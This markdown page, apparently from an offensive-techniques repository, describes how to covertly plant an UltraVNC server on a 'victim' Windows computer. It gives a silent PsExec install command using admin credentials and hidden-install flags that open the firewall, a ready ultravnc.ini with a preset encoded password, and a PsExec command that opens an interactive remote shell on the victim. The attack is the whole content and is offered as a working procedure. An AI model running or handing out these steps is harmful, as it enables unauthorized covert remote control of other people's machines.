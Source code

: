 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![Administrative shares](assets/uvnc.jpg "Administrative shares")

# Install VNC Server to Victim via Administrative Shares

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

## Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

> psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

## Step 4: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

`
 [ultravnc]
  passwd=56B6ACA18D1BA76008
  passwd2=56B6ACA18D1BA76008
`

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

## Step 5: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service